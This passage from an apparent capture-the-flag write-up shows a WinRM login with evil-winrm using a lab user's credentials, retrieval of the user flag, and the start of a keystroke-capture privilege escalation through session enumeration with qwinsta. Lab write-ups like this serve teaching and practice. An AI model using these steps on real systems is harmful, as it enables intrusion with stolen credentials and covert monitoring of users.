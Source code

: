 We use Dr Brown credentials and login using WinRM.

```shell
labadmin@labmachine:~/hospital$ evil-winrm -i 10.10.11.241 -u drbrown -p '[OMITTED]'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents> whoami
hospital\drbrown
```

User flag is found on the Desktop in user.txt file.

```shell
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Desktop> dir


    Directory: C:\Users\drbrown.HOSPITAL\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/14/2024   9:10 PM             34 user.txt


*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Desktop> cat user.txt
[OMITTED]
```

## Privilege Escalation

### Keystroke Capture

Using `qwinsta` command we displays interactively logged-in users and we see that there is an active session.

```shell
C:\Users\drbrown.HOSPITAL\Documents>qwinsta
qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console           drbrown                   1  Active
 rdp-tcp                                 65536  Listen
```

The `>` shows the current console session with ID 0. Next is drbrown logged in to console with ID 1.
